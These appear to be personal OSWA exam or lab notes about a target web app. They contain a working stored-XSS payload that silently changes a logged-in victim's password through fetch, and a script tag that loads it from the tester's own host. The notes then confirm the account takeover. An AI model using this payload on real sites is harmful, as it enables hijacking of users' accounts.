 as found in the `app.js`
![[ss-20250919-OSWA-Exam-ShareNotez-pic19.png]]
`payload10.js`
```js
fetch("https://192.168.62.62:8443/api/me/password", {
  method: "POST",
  headers: {
    "Content-Type": "application/x-www-form-urlencoded"
  },
  body: "password=adminxss",
  credentials: "include"
});
```
sending payload with 
```bash
<script src="http://192.168.49.62:8000/payload10.js"></script>
```
first `200` error looks like success
![[ss-20250919-OSWA-Exam-ShareNotez-pic20.png]]
tested new login credentials and was able to login with `test:adminxss` which are the credentials that the fetch changed
![[ss-20250919-OSWA-Exam-ShareNotez-pic21.png]]
what the whole `burp` request looks like after it works 
![[ss-20250919-OSWA-Exam-ShareNotez-pic22.png]]
reported the working `payload10.js` and now waiting to see if it gets executed
![[ss-20250919-OSWA-Exam-ShareNotez-pic23.png]]